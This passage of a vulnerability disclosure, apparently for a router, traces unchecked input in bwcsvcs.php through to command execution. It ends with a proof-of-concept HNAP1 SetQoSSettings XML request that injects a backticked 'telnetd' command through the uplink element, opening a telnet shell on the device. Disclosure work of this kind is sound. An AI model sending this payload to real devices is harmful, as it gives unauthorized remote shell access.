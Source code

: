 And in the `bwc_tc_spq_2013gui_start` functions of the `bwcsvcs.php` source code, the data in `$rtbwcp."/bandwidth"` is not checked when '$name!="LAN-1"' (e.g., WAN-1).

![](bwcsvcs.php1.png)

Finally, with the `$trate` element the `startcmd` function called to execute command.

![](bwcsvcs.php2.png)

A vulnerable `/HNAP1/SetQoSSettings` XML message could have shell metacharacters in the `uplink` element such as the ``` `telnetd` ``` string.

### PoC xml

```
<?xml version="1.0" encoding="utf-8"?> <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"> <soap:Body>
<SetQoSSettings> <uplink>`telnetd`</uplink>
<downlink>default</downlink>
<QoSInfoData> <QoSInfo>
<Hostname>hostname</Hostname>
<IPAddress>192.168.0.1</IPAddress>
<MACAddress>default</MACAddress>
<Priority>default</Priority>
<Type>default</Type>
</QoSInfo> </QoSInfoData> </SetQoSSettings>
</soap:Body> </soap:Envelope>
```
